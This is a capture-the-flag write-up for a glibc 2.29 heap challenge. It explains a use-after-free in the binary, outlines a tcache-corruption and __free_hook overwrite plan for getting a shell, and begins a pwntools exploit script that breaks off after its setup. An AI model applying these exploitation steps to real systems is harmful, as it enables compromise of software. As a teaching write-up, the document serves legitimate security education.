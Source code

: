 ## girlfriend

We have the following action permitted:

- Add a girl: we must fit the following struct, girlfriend{ char *name; dword size_name; char number[12]; }, by inserting the length of the name, the name and the number of the girl, then we save the pointer
  in a global var in bss, we can insert a maximux of 100 elements

- Show info: show her name and her phone number

- Edit info: not yet implemented because 'Programmer is tired, delete it and add a new info' xD

- Call that girl: select a girl to speak out your love! then you should have a random answer (as usual now i think), but before free also the girlfriend->name chunk. the struct girlfriend is not freed

- Exit

The vulnerability arises in the 'Call that girl' function,in fact there's a simply UAF, caused by not setting the girlfriend->name pointer to NULL.
```
  ...
  if ( index_girl < 0 || index_girl > 99 )
    exit(0);
  if ( array_of_girl[index_girl] )
    free(*array_of_girl[index_girl]);   // uaf and leak
  v0 = time(0LL);
  srand(v0);
  esito = rand() % 10;   //  2/10 ..damn you probability
  if ( esito > 1 )
    puts("Oh, you have been refused.");
  else   
    puts("Now she is your girl friend!");
  ...
```
The libc given for the challenge was the 2.29, so no double-free in tcachebins, but we can free the same chunk in another bins (e.g. fastbin).
The problem is that in this last case, the tcachebins has more priority than other bins, and so the same chunk is returned first by tcachebin,
and so we lose the tcache corrupt, to not lose this property, the solution i used was to have the same chunk with different size, in different bins. (consolidate etc.)

### Solution
 - fit the tcachebins[k], so now next freed chunk of size k will be put in unsortedbin (k > 0x80)
 - meanwhile, free and consolidate two chunks, e.g. we'll call them A and B, so them size will differ from k, but B should still have k as size
 - leak the arena
 - decrease the tcachebins[k] ,then free again B, this time no consolidate will happen because of tcache
 - tcache corrupt + _free_hook overwrite + system 
```
from pwn import *
import time

debug = int(sys.argv[1])
online=False
if( debug == 0):
  r = remote("34.92.96.238", 10001)
  libcz = ELF("./lib/libc.so.6")
  online=True
elif(debug == 1):
  libcz = ELF("/lib/x86_64-linux-gnu/libc.so.6")
  r =process( ['./lib/ld-2.29.so', '--library-path', './lib', './chall'])

def halt():
```